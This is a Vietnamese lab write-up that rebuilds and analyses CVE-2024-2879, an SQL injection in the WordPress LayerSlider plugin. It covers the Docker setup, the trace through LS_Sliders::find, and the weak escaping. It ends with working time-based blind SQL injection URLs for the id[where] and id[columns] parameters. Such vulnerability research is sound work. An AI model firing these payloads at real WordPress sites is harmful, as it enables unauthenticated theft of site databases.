## Thông tin lỗ hổng

CVE-2024-2879 là lỗ hổng bảo mật nghiêm trọng trong plugin LayerSlider của WordPress, ảnh hưởng đến phiên bản 7.9.11 và 7.10.0. Lỗ hổng này xảy ra do không kiểm tra và làm sạch dữ liệu đầu vào tham số 'id' cho hành động ls_get_popup_markup, cho phép kẻ tấn công chèn SQL độc hại vào truy vấn cơ sở dữ liệu. Điều này có thể dẫn đến việc truy xuất thông tin nhạy cảm từ cơ sở dữ liệu.

Với điểm số CVSS là 9.8 (mức độ nghiêm trọng), lỗ hổng này có thể cho phép kẻ tấn công không xác thực tiếp cận dữ liệu và gây tổn hại nghiêm trọng đến trang web bị ảnh hưởng.

## Dựng lại môi trường

### Cấu hình website WordPress và cơ sở dữ liệu MySQL bằng Docker

Dưới đây là file cấu hình `docker-compose.yml`: 
```yaml 
version: "3"
services:
  db:
    image: mysql:5.7
    restart: always
    environment:
      MYSQL_ROOT_PASSWORD: MyR00tMySQLPa$$5w0rD
      MYSQL_DATABASE: MyWordPressDatabaseName
      MYSQL_USER: MyWordPressUser
      MYSQL_PASSWORD: Pa$$5w0rD
  wordpress:
    depends_on:
      - db
    image: wordpress:latest
    restart: always
    ports:
      - "8000:80"
    environment:
      WORDPRESS_DB_HOST: db:3306
      WORDPRESS_DB_USER: MyWordPressUser
      WORDPRESS_DB_PASSWORD: Pa$$5w0rD
      WORDPRESS_DB_NAME: MyWordPressDatabaseName
    volumes:
      - "./:/var/www/html"
```
Cài đặt website wp bằng docker: 

Sau khi cài đặt xong, chúng ta vào docker và start website:


### 2.2 Cấu hình plugin và setup môi trường
Cài đặt plugin LayerSlider v7.9.11 [link](https://www.wplocker.com/plugin-lib/codecanyon/67620146-kreatura-v7911-slider-plugin-for-wordpress.html) 

Tại trang admin, ta bắt đầu cài đặt plugin cho website Wordpress 


Vì kích thước của plugin LayerSlider có thể vượt quá giới hạn cho phép upload mặc định của wordpress. Nên ta cần phải cấu hình lại file php.ini để cho dung lượng phù hợp 

Trên Docker console ta sử dụng lệnh: 

```bash 
find / -type f -name "*php*ini*"
```

Để tìm tất cả các file có chứa cụm từ “php” và “ini” có trong server. 


Không thấy file php.ini vậy nên ta phải tự tạo và cấu hình lại file php.ini
Chuyển tới thư mục: 

```bash
/usr/local/etc/php/
```

Sau đó tạo file php.ini 

Ta bắt đầu sửa lại file php.ini vừa tạo 


Restart lại container và add lại plugin: 

Sau đó active plugin là thành công. 

## Phân tích lỗ hổng

Báo cáo cho thấy lỗ hổng xảy ra tại api 

```http
http://localhost:8000/wp-admin/admin-ajax.php?action=ls_get_popup_markup&id%5Bwhere%5D=1
```
với tham số  **id[where]=1** các câu lệnh độc hại sẽ được truyền vào để thực thi.

Phân tích cách hoạt động của api: 

    - Yêu Cầu từ Client: Một script JavaScript gửi yêu cầu tới **admin-ajax.php** (*) thông qua phương thức **GET** hoặc **POST**. Yêu cầu này bao gồm một số thông tin như hành động (action) định nghĩa nhiệm vụ cần thực hiện và các tham số khác.

    - Xử Lý trong WordPress: **admin-ajax.php** tìm và thực thi mã PHP tương ứng với hành động được yêu cầu. Các nhà phát triển có thể đăng ký các hàm xử lý tùy chỉnh với các hành động này thông qua hooks như **wp_ajax_{action}** cho người dùng đã đăng nhập và **wp_ajax_nopriv_{action}** cho người dùng chưa đăng nhập.

    - Phản Hồi từ Server: Sau khi hành động đã được xử lý, **admin-ajax.php** trả lại kết quả cho JavaScript, thường là dưới dạng JSON, XML, hoặc HTML. JavaScript sau đó có thể sử dụng dữ liệu này để cập nhật giao diện người dùng mà không cần tải lại trang.

Trong trường hợp api trên, php thực thi hành động **wp_ajax_nopriv_{action}** với **action=ls_get_popup_markup**. Kẻ tấn công không xác thực đăng nhập 


Ta bắt đầu truy vết xem action **ls_get_popup_markup** bắt nguồn từ đâu.
Sử dụng lệnh

```bash 
grep -r “ls_get_popup_markup” 
```

để tìm kiếm tất cả các file có chứa action trên

Ta có thể thấy tại file **wp-content/plugins/LayerSlider.7.9.11/assets/wp/actions.php** có chứa action này. Ta truy cập vào để tìm kiếm. 


Bắt đầu phân tích hàm này ta thấy được: 

  - Biến **$id** nhận giá trị **id** từ **$_GET request** qua hàm **is_numeric()** trả về **true** hoặc **false** kiểm tra xem id có phải là số hay là chuỗi số. 

  - Biến **$popup** nhận kết quả truy vấn từ **LS_Sliders::find( $id );** 

=> chúng ta cần xem **LS_Sliders::find( $id );** hoạt động như thế nào.

trong lớp **LS_Sliders**, phương thức **find()** được định nghĩa nhận vào giá trị là 1 mảng. Tuy nhiên, trong PHP điều đó không giới hạn kiểu dữ liệu của các giá trị được truyền đến hàm. Các kiểu dữ liệu khác khi được truyền vào đều được chấp nhận và được xử lý thành từng thành phần riêng biệt theo các điều kiện check.

Khi là số thì trả về kết quả truy vấn theo số, khi giá trị là ‘random’ thì trả về kết quả ngẫu nhiên, là string thì truy vấn theo string, là mảng thì truy vấn theo từng giá trị. 
Còn các kiểu khác thì sẽ được xử lý riêng. Và trọng tâm khai thác của chúng ta ở phần **//Find by query này** 


Ở phần **query**, ta thấy được một số giá trị mặc định được gán sẵn giá trị được gán trở lại biến $args ban đầu. Tuy nhiên nó có một nhược điểm chí mạng là điều kiện để gán đó là giá trị của từ điển **$args** phải rỗng (chưa được set value) vậy nên ta có thể tùy ý thay đổi các giá trị mặc định đó. 

Đặt debug để output các giá trị: 

debug ở hàm **ls_get_popup_markup**:


Payload: 
```http
http://localhost:8000/wp-admin/admin-ajax.php?action=ls_get_popup_markup&id[where]=hello&id[columns]=bruh%20bruh&id[page]=jksdkjdsf
```

tiếp tục xuống bên dưới, ta thấy được phần xử lý escape data người dùng nhập vào một cách sơ sài: 

hàm **esc_sql()**: dùng để chống sqli nhưng nó chỉ đơn giản escape ký tự **‘** và **“** thành **\’** và **\”** => dễ bypass 

Payload:
```http
http://localhost:8000/wp-admin/admin-ajax.php?action=ls_get_popup_markup&id[where]=hello&id[columns]=bruh%20bruh&id[page]=jksdkjdsf%27%27
```

tiếp theo đó các giá trị defaults ban đầu được gán thành các giá trị mặc định được chuẩn bị sẵn. Nhưng chỉ có **$args[‘where']** là không cài đặt giá trị.

Cùng với đó câu lệnh: 

```php
$args['columns'] = ( $args['columns'] === '*' ) ? implode(', ', $columns) : $args['columns'];
```

Tham số **$args['columns']**  cũng có thể bị khai thác vì nó không được đặt sẵn những giá trị mặc định. Thay vào đó code kiểm tra xem tham số có giá trị ‘*’ không nếu có thì gán vào những giá trị đặt sẵn, nếu không thì trả về y nguyên **$args[‘columns’]** ban đầu.  

Payload: 
```htttp
http://localhost:8000/wp-admin/admin-ajax.php?action=ls_get_popup_markup&id[where]=hello&id[columns]=bruh bruh&id[page]=jksdkjdsf&id[orderby]=null
```


các giá trị được truyền vào đều bị thay đổi ngoại trừ giá trị của **where** và **columns** 

=> 2 tham số bị lỗ hổng sqli, tham số **$args[‘where’]** (đã được công bố) tham số **$args[‘columns’]** (mới tìm ra trong quá trình xây dựng lại). 

Tiếp tục phân tích xuống bên dưới ta thấy được tại điều kiện thứ 2, biến $where được lấy giá trị trực tiếp từ **$args[‘where’]** và nối tiếp vào câu truy vấn được cài đặt sẵn. 

Và cuối cùng khi thực hiện truy vấn, đoạn code lấy giá trị trực tiếp từ 2 biến $args[‘where’] và $args[‘columns'] để thực thi: 


payload: 
```http
http://localhost:8000/wp-admin/admin-ajax.php?action=ls_get_popup_markup&id[where]=hello&id[columns]=bruh%20bruh
```

Test lần lượt các tham số:

  - với tham số **$args[‘columns’]** :

Payload: 
```http
localhost:8000/wp-admin/admin-ajax.php?action=ls_get_popup_markup&id[columns]=id AND (SELECT 2867 FROM (SELECT(SLEEP(2)))zLaK)
```


  - với tham số **$args[‘where’]**:

payload:
```http
http://localhost:8000/wp-admin/admin-ajax.php?action=ls_get_popup_markup&id[where]=1%20AND%20IF(%201=1,%20(select%201%20from%20(select%20(sleep%20(10)))%20as%20tmp),%201%20)
```
